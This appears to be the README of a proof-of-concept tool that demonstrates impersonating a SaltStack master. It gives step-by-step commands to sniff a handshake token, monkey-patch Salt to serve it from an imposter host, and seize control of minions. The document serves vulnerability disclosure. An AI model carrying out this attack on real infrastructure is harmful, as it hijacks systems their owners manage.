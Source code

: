 ## Introduction

This is a tool created to demonstrate a security vulnerability in salt stack's
master verification system. It allows anyone to impersonate a master host
by merely observing one handshake between a minion and a legitimate master.

## Prerequisites

The script that listens for handshake traffic requires pycap and dpkt.
These can be installed like so (on an Ubuntu Precise system):

```sh
sudo apt-get install python-dpkt python-pypcap
```

These instructions are going to assume you already have a working salt-{master,minion}.
If you don't, you can set them up like this (again, Ubuntu Precise):

```sh
sudo apt-get install python-software-properties
sudo add-apt-repository ppa:saltstack/salt
sudo apt-get update
sudo apt-get install salt-master salt-minion
sudo sed -i 's/#master: salt/master: 127.0.0.1/g' /etc/salt/minion
sudo restart salt-minion
sudo salt-key -A
```

Finally, you'll need to clone this repository somewhere.

```sh
git clone https://github.com/dzderic/chicken-salt
```

## The attack

I'm going to be running this attack against a master running on my local machine.
You'll probably want to insert the IP of your master instead of `127.0.0.1`.

The first thing we need to do is listen to a handshake between a minion and a master.
The `listener.py` script does this for us and dumps out the token and public key of
the master we'll be impersonating. You can run it like so:

```sh
sudo ./listener.py --interface lo --address 127.0.0.1
```

Now you'll have to wait for a handshake to occur. If you have control of a minion,
you can force a handshake by restarting the service (`sudo restart salt-minion`).
You should see something like this:

```
Listening for salt packets going to 127.0.0.1 on port 4506
Packet received
Packet received
Packet received
Packet received
Found a token!
Writing token to '/etc/salt/pki/token'
Writing master pub key to '/etc/salt/pki/fake_master.pub'
```

The only thing left to do is impersonate the master. `salt_master_monkey.py` takes
care of serving the token we sniffed earlier and the previous master's public key.
On the imposter master:

```sh
sudo ln -s "`pwd`/salt_master_monkey.py" /usr/lib/pymodules/python2.7/salt/
sudo sh -c 'echo import salt_master_monkey >> /usr/lib/pymodules/python2.7/salt/__init__.py'
```

You'll also want to make sure that the token and public key are in `/etc/salt/pki/`
(which is where they're placed by `listener.py`).

NOTE: If you're running this on a test master, you probably want to remove the
master's actual keys, or this wouldn't be much of an attack now would it?

```sh
sudo stop salt-master
sudo rm /etc/salt/pki/master.pem /etc/salt/pki/master.pub
sudo start salt-master
```

Congratulations, you now have control over many minions to do your bidding.

```console
sudo restart salt-minion   # to force a handshake with the new master
sudo salt \* test.ping
# ubuntu: True
```
